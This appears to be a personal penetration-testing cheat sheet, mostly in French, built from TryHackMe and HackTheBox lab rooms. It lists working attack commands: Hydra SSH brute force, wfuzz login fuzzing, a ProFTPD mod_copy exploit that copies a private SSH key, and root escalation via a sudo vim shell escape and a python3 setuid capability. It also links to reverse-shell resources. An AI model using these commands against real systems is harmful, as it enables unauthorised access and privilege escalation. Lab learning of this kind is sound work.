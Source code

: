 # ![](img/pentest_25.svg) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Enumerate local information from a Linux host

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)
## Outils
### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.

### Hydra 

-l = user
<br/>-L = userlist
<br/>-p = password
<br/>-P = passwordlist

```hydra -l test -P /home/petibonum/Outils/wordlist/rockyou.txt 10.10.11.100 ssh```

user = test
<br/>wordlist = rockyou.txt

[Source](https://linuxtrack.net/viewtopic.php?id=654)

### Fuzzing

```wfuzz -c -z file,<file> --sc 200 -d "username=<user>&password=FUZZ" http://<ip>/<path>/```
### ADB connect 

[Source](https://labs.f-secure.com/blog/hackin-around-the-christmas-tree/)
### SMB

Lets inspect one of the shares :
<br/>```smbclient //<ip>/anonymous```

You can recursively download the SMB share too. Submit the username and password as nothing.
<br/>```smbget -R smb://<ip>/anonymous```

### ProFTPD module mod_copy

Exemple : [Kenobi Room](https://tryhackme.com/room/kenobi)

Prérequis : port 21

    PORT   STATE SERVICE
    21/tcp open  ftp

    ┌──(root💀2d2359796bd4)-[/mnt/kenobiNFS]
    └─# nc 10.10.253.117 21
    220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.253.117]
    SITE CPFR /home/kenobi/.ssh/id_rsa
    350 File or directory exists, ready for destination name
    SITE CPTO /var/tmp/id_rsa
    250 Copy successful

    mkdir /mnt/<name_folder>
    sudo mount <ip_target_machine>:/var /mnt/<name_folder>
    ls -la /mnt/<name_folder>

    cp /mnt/<name_folder>/tmp/id_rsa .
    sudo chmod 600 id_rsa
    ssh -i id_rsa kenobi@10.10.253.117

[Source](http://www.proftpd.org/docs/contrib/mod_copy.html)

## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

    <br/>```nathan@cap:~$ getcap -r / 2>/dev/null```
    <br/>ans : /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    <br/>ans : /usr/bin/ping = cap_net_raw+ep
    <br/>ans : /usr/bin/traceroute6.iputils = cap_net_raw+ep
    <br/>ans : /usr/bin/mtr-packet = cap_net_raw+ep
    <br/>ans : /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
    <br/>```nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
    <br/>ans : root@cap:~#
    C'est bon, on est root sur la machine.

* N°4 : TryHackMe -> [Advent of Cyber 2020](https://tryhackme.com/room/adventofcyber2)
    <br/>```python -c 'import pty; pty.spawn("/bin/bash")'```
### Reverse Shell

[Reverse Shell examples](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### Recherche FIND spécifique

Rechercher des fichiers avec l'autorisation SUID :
<br/>```find / -user root -perm /4000 2>/dev/null```
<br/>```find / -perm -u=s -type f 2>/dev/null```

### LinPEAS - Linux Privilege Escalation Awesome Script

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```git clone https://github.com/carlospolop/PEASS-ng.git```
### Outils d'encodage

[CyberChef](https://gchq.github.io/CyberChef/)

## Autres Sources

* [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
* [SUID vs CAPABILITIES](https://mn3m.info/posts/suid-vs-capabilities/)
* [Linux Privilege Escalation](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)
* [Linux Privilege Escalation with Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
* [Reverse Shell - Synetis](https://www.synetis.com/etablir-un-reverse-shell-en-une-ligne/)
